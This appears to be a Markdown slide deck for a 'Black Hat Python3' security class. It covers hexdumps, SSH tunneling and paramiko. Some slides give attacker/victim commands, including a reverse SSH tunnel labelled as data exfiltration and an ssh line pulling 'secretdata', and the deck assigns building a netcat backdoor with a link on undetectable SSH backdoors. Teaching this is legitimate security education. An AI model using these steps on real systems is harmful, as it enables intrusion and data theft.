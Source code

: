 ## Welcome to class 8!

### Black Hat Python3 

### Raleigh ISSA

---

## Github repo

https://github.com/tiarno/bhp3_class

---

## Summary from last class

- building images from packet capture streams
- tcp/udp clients and servers
- starting a pure-python netcat clone

---

## Netcat

`netcat.py`

---

## Hexdump

```python
          1         2
012345678901234567890123456789
 Black Hat Python, Raleigh ISSA
:Black Hat :
s = 'Black Hat '
hexa = ' '.join(['%04X' % ord(x) for x in s])

0042 006C 0061 0063 006B 0020 0048 0061 0074 0020

text = ''.join([x if 32 <= ord(x) < 127 else '.' for x in s])

'Black Hat '
```

---

## Writing Bytes

- `hexdumper.py`

---

## SSH 

```
ssh -l testuser 192.168.1.104

ssh -f tim@secretz.com cat secretdata | print
```

---

## SSH Tunneling

Local Port Forwarding

*Syntax*
- local interface, local port:remote host, remote port
- local=attacker remote=victim

```
ssh -L [bind_address:]port:host:hostport

ssh -L localhost:9000:boodelyboo.com:80 testuser@192.168.1.104

```

---

## Basic Tunnel 1

![sshimage](./images/ssh_tunnel.png)


---

## Basic Tunnel 2

![sshoutimage](./images/ssh_tunnel_out.png)

---

## Demo

- server = victim/kali, client = attacker/mac
- server: `netstat -t -c` #just for watching 
- client: `ssh -L localhost:9000:192.168.1.104:21 testuser@192.168.1.104`
- client: `python ftpclient.py 127.0.0.1 9000 testuser`

---

## Restricted Port?

![sshinimage](./images/ssh_tunnel_in.png)

---

## Mind bending RSSH

- start remote port forwarding on victim server
- connect to specified port from attacker machine
- profit

---

## Reverse SSH

- Mac: victim
    ```python
    python -m http.server # Data exfiltration

    ssh -l testuser -R 192.168.1.104:3000:localhost:8000 192.168.1.104
    ```
- kali: attacker
    ```python
    wget localhost:3000
    ```

---

## SSH Options

- `-f ` run in background
- `-l username` login with name username
- `-N ` do not exec a command. Port forwarding only
- `-T` do not start up a terminal


---

## SSH (paramiko) Client

- `paramiko_demo.py`

---

## Paramiko Tools


- https://github.com/paramiko/paramiko
- https://resources.infosecinstitute.com/creating-undetectable-custom-ssh-backdoor-python-z/


---

## Your Job

- Finish out your `netcat.py` backdoor
- Study SSH and tunneling
- Recreate ssh with Paramiko

---

## Reading

- ssh tunnel https://www.linuxjournal.com/article/5462
- reverse ssh https://www.bogotobogo.com/Linux/linux_Secure_Shell_SSH_V_ssh_Reverse_SSH_Tunnel_Remote_Port_Forwarding.php

---

## BHP3_class

- github repo
- python package
- discord channel

---

## What we did: Hacking

 - website enumeration
 - password bruteforcing
 - constructed and parsed IP and ICMP headers
 - built UDP network scanner
 - scapy packet analysis and graphics
 - scapy arp poison and dns spoofing
 - netcat tcp client/server app
 - ssh tunneling and paramiko

---

## What we did: Python

- os.walk, lxml
- lists, queues
- threads, processes
- strings, bytes
- try/except/else/finally
- context managers
- sockets
- parse packet headers
- scapy
- named tuple

---

## Things to Remember

- keep your namespaces clean
- be thoughtful about what you name things
- be biased toward simplicity
- solve the problem and no more

---

## Feedback please!

- tim@reachtim.com
- discord: https://discord.gg/WR23qUj

 